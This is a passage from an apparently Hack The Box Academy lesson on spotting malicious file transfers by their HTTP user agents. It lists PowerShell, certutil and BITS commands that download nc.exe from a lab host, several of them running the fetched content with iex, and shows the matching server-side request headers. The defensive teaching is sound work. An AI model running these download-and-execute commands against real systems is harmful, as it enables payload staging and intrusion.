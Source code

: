 Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting on any unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the `HTTP` protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which `HTTP` client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions. This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common `HTTP` transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

#### Invoke-WebRequest - Client

  Detection

```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

#### Invoke-WebRequest - Server

  Detection

```shell-session
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

#### WinHttpRequest - Client

  Detection

```powershell-session
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

#### WinHttpRequest - Server

  Detection

```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

#### Msxml2 - Client

  Detection

```powershell-session
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

#### Msxml2 - Server

  Detection

```shell-session
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

#### Certutil - Client

  Detection

```cmd-session
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

#### Certutil - Server

  Detection

```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

#### BITS - Client

  Detection

```powershell-session
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

#### BITS - Server

  Detection

```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.

 [Previous](https://academy.hackthebox.com/module/24/section/1575)